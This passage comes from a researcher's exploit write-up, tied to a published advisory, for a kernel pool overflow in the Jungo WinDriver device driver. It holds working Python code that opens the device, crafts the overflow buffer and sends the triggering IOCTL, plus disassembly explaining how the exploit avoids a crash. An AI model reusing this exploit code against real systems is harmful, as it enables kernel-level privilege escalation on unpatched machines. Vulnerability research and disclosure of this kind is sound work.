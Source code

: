 <p class="cn">We can see that the freed chunks have been coalesced and now we have a perfect sized hole. All we need to do is allocate and overwrite.</p>

{% highlight python %}
def we_can_trigger_the_pool_overflow():
    """
    This triggers the pool overflow vulnerability using a buffer of size 0x460.
    """
    GENERIC_READ  = 0x80000000
    GENERIC_WRITE = 0x40000000
    OPEN_EXISTING = 0x3
    DEVICE_NAME   = "\\\\.\\WinDrvr1240"
    dwReturn      = c_ulong()
    driver_handle = kernel32.CreateFileA(DEVICE_NAME, GENERIC_READ | GENERIC_WRITE, 0, None, OPEN_EXISTING, 0, None)
    inputbuffer       = 0x41414141
    inputbuffer_size  = 0x5000
    outputbuffer_size = 0x5000
    outputbuffer      = 0x20000000
    alloc_pool_overflow_buffer(inputbuffer, inputbuffer_size)
    IoStatusBlock = c_ulong()

    if driver_handle:
        dev_ioctl = ntdll.ZwDeviceIoControlFile(driver_handle, None, None, None, byref(IoStatusBlock), 0x953824b7,
                                                inputbuffer, inputbuffer_size, outputbuffer, outputbuffer_size)
        return True
    return False
{% endhighlight %}

#### Surviving the Overflow

<p class="cn">You may have noticed the null dword in the exploit at offset 0x90 within the buffer.</p>

{% highlight python %}
def alloc_pool_overflow_buffer(base, input_size):
    """
    Craft our special buffer to trigger the overflow.
    """
    print "(+) allocating pool overflow input buffer"
    baseadd   = c_int(base)
    size = c_int(input_size)
    input  = "\x41" * 0x18                     # offset to size
    input += struct.pack("<I", 0x0000008d)     # controlled size (this triggers the overflow)
    input += "\x42" * (0x90-len(input))        # padding to survive bsod
    input += struct.pack("<I", 0x00000000)     # use a NULL dword for sub_4196CA
    input += "\x43" * ((0x460-0x8)-len(input)) # fill our pool buffer
{% endhighlight %}

<p class="cn">This is needed to survive the overflow and avoid any further processing. The following code listing is executed directly after the copy loop.</p>

{% highlight text %}
.text:004199ED loc_4199ED:                                  ; CODE XREF: sub_41998E+41
.text:004199ED                 push    9
.text:004199EF                 pop     ecx
.text:004199F0                 lea     eax, [ebx+90h]       ; controlled from the copy
.text:004199F6                 push    eax                  ; void *
.text:004199F7                 lea     esi, [edx+6Ch]       ; controlled offset
.text:004199FA                 lea     eax, [edx+90h]       ; controlled offset
.text:00419A00                 lea     edi, [ebx+6Ch]       ; controlled from copy
.text:00419A03                 rep movsd
.text:00419A05                 push    eax                  ; int
.text:00419A06                 call    sub_4196CA           ; call sub_4196CA
{% endhighlight %}


[FuzzySec]: https://twitter.com/FuzzySec
[sickness416]: https://twitter.com/sickness416
[skylined]: https://twitter.com/berendjanwever
[ryujin]: https://twitter.com/ryujin
[hevd]: https://github.com/hacksysteam/HackSysExtremeVulnerableDriver
[windriver]: http://www.jungo.com/st/products/windriver/
[advisory]: /advisories/src-2017-0026
[exploit]: /pocs/src-2017-0026.py.txt
[beefs_tutorials]: http://www.fuzzysecurity.com/tutorials.html